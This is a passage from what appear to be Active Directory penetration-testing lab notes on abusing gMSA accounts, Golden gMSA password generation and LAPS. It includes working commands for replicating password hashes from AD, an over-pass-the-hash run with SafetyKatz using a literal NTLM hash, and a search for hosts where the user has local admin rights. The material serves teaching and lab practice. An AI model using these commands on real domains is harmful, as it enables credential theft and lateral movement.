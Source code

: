 Output is an NTLM hash you use for over-pass-the hash - see 4.


<strong>(3. Verify that PW matches from AD - optional)
</strong>Next step I perform in the lab is to to confirm that the NT password hash that DSInternals provides matches that in Active Directory.
I use the DSInternals command Get-ADReplAccount to get the AD password hash and can confirm that the password hash pulled from the GMSA is the same as that gathered from AD.
$account = get-adreplaccount -samaccountname 'username/machinename$' -server hostname.dom.local
$hash2 = convertto-hex -input $account.nthash
$hash2

4. We can use the hash for Auth and run a cmd as service account
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:jumpone /domain:us.techcorp.local /ntlm:3361912e368ac24552f71ffabfa7e0b5 /run:cmd.exe" 

5. Find out where user is local admin
 . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
 Find-PSRemotingLocalAdminAccess -Verbose

</code></pre>

**Golden gMSA**

* gMSA password is calculated by leveraging the secret stored in KDS root key object.
* Once we compute the GKE for the associated KDS root key we can generate the password offline
* Only privilege accounts such as Domain Admins, Enterprise Admins or SYSTEM can retrieve the KDS root key.
* Once the KDS root key is compromised we can’t protect the associated gMSAs accounts.
* Golden gMSA can be used to retrieve the information of gMSA account, KDS root key and generate the password offline.
* We need following attributes of the KDS root key to compute the Group Key Envelope (GKE) : – cn – msKds-SecretAgreementParam – msKds-RootKeyData – msKds-KDFParam – msKds-KDFAlgorithmID – msKds-CreateTime – msKds-UseStartTime – msKds-Version – msKds-DomainID – msKds-PrivateKeyLength – msKds-PublicKeyLength – msKds-SecretAgreementAlgorithmID

## 🔑LAPS

### **Description**

* LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.
* &#x20;"…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers."&#x20;
* Storage in clear text, transmission is encrypted (Kerberos).&#x20;
* Configurable using GPO.&#x20;
* Access control for reading clear text passwords using ACLs. Only Domain Admins and explicitly allowed users can read the passwords.
* On Client/Server C:\Program Files\LAPS\CSE\admpwd.dll is responsible

### Requirement

Is LAPS used? Check C:\Program Files\LAPS\CSE\admpwd.dll&#x20;
